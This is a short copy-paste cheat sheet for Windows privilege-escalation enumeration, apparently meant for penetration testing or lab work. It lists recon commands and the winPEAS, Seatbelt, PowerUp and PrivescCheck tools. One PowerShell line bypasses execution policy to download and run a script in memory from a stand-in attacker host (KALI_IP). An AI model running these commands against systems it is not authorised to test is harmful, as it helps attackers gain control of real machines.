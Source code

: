 ## Typical command walkthrough (detailed, copy-paste friendly)

Baseline (cmd.exe):
```
whoami /all
whoami /priv
whoami /groups

hostname
ver
systeminfo

wmic os get Caption,Version,BuildNumber,OSArchitecture
wmic qfe get HotFixID,InstalledOn,Description

echo %PROCESSOR_ARCHITECTURE%
net user %USERNAME%
net localgroup administrators
```

Quick automated enumeration (place binaries locally or fetch over HTTP as appropriate):

winPEAS:
```
.\winPEASx64.exe > C:\Users\Public\winpeas.txt 2>&1
```

Seatbelt:
```
.\Seatbelt.exe -group=all > C:\Users\Public\seatbelt.txt 2>&1
```

PowerUp (local file):
```
powershell -ep bypass -c "Import-Module .\PowerUp.ps1; Invoke-AllChecks | Tee-Object C:\Users\Public\powerup.txt"
```

PowerUp (download + run in-memory; replace KALI_IP):
```
powershell -ep bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://KALI_IP/PowerUp.ps1'); Invoke-AllChecks | Tee-Object C:\Users\Public\powerup.txt"
```

PrivescCheck:
```
powershell -ep bypass -c "Import-Module .\PrivescCheck.ps1; Invoke-PrivescCheck -Report C:\Users\Public\privesc.html"
```

Services – unquoted paths (cmd.exe):
```
wmic service get name,displayname,pathname,startmode | findstr /i "auto" > C:\Users\Public\services.txt
type C:\Users\Public\services.txt | findstr /i /v "C:\Windows\" | findstr /i /v "\""
```
